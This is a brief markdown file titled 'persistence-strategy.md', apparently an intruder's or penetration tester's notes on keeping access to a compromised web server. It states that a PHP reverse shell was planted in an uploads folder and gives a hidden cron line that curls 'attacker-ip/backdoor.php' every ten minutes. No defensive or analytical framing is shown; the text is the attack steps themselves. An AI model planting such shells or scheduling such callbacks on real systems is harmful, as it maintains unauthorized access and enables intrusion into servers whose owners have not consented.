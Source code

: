 ### 📄 `persistence-strategy.md`

# Maintaining Access

- Placed a PHP reverse shell in an unused media folder (`/assets/uploads`)
- Added a hidden cron job to ping back every 10 minutes:

*/10 * * * * curl http://attacker-ip/backdoor.php
